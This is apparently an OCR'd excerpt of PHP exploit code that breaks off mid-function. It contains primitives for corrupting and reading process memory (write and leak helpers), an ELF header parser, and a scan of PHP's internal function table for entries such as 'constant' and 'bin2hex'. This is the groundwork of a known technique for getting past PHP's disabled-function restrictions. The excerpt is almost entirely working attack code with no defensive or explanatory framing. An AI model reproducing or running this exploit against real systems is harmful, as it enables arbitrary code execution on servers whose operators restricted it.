 ```php
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = chr($v & 0xff);
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
```